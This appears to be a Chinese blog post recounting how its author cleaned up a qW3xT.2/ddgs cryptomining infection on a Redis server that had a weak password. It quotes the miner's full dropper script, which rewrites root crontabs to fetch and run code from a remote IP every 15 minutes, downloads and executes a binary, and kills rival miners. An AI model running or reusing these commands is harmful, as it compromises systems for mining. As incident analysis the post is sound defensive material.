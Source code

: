 ```yaml
---
title: 记一次挖矿病毒处理qW3xT.2
date: 2018-08-12 09:59:32
tags: [Linux,problem,qW3xT]
categories: [server]
---
```


## 问题发现及解决

​	在ucloud使用redis，开启了6379端口，但是当时并没有对redis的密码进行设置复杂的设置，设置的为123456。

使用top命令查询，发现cpu异常占用过高。99%以上

![1536317606280](http://pic.fenghong.tech/tapd_23280401_1536318583_22.png)

​	qW3xT.2程序和ddgs.3013程序，看起来就不是正常的程序。google了一下，发现是美国的一个挖矿程序。

​	进入/tmp文件夹下。发现qW3xT.2文件，删除。之后kill掉qW3xT.2该进程，但是一段时间之后，发现该行程又重新启动。

​	一段时间之后，删除的文件重新生成，dds和挖矿的进程又重新执行。此时怀疑是否有计划任务，此时查看计划任务的列表

```
]# find / -name qW3xT.2
]# find / -name ddgs.3013
]# crontab -l 
*/15 * * * * curl -fsSL http://149.56.106.215:8000/i.sh | sh
]# cd /var/spool/cron/
]# rm -rf * 	
]# crontab -l  ##任务计划清除完毕。
```

​	分析一下挖矿脚本

```
]# curl -fsSL http://149.56.106.215:8000/i.sh | sh

export PATH=$PATH:/bin:/usr/bin:/usr/local/bin:/usr/sbin

echo "" > /var/spool/cron/root
echo "*/15 * * * * curl -fsSL http://149.56.106.215:8000/i.sh | sh" >> /var/spool/cron/root
echo "*/15 * * * * wget -q -O- http://149.56.106.215:8000/i.sh | sh" >> /var/spool/cron/root

mkdir -p /var/spool/cron/crontabs
echo "" > /var/spool/cron/crontabs/root
echo "*/15 * * * * curl -fsSL http://149.56.106.215:8000/i.sh | sh" >> /var/spool/cron/crontabs/root
echo "*/15 * * * * wget -q -O- http://149.56.106.215:8000/i.sh | sh" >> /var/spool/cron/crontabs/root

ps auxf | grep -v grep | grep /tmp/ddgs.3013 || rm -rf /tmp/ddgs.3013
if [ ! -f "/tmp/ddgs.3013" ]; then
    wget -q http://149.56.106.215:8000/static/3013/ddgs.$(uname -m) -O /tmp/ddgs.3013
    curl -fsSL http://149.56.106.215:8000/static/3013/ddgs.$(uname -m) -o /tmp/ddgs.3013
fi
chmod +x /tmp/ddgs.3013 && /tmp/ddgs.3013

ps auxf | grep -v grep | grep Circle_MI | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep get.bi-chi.com | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep hashvault.pro | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep nanopool.org | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep minexmr.com | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep /boot/efi/ | awk '{print $2}' | xargs kill
#ps auxf | grep -v grep | grep ddg.2006 | awk '{print $2}' | kill
#ps auxf | grep -v grep | grep ddg.2010 | awk '{print $2}' | kill
```

​	解决redis入口问题，因为最开始没有设置密码，所以首先修改redis.conf。设置密码，然后重启redis。

## 总结

​	知名应用程序的端口应避免使用默认端口，认证密码应稍微复杂，避免使用888888,123456等简单密码。

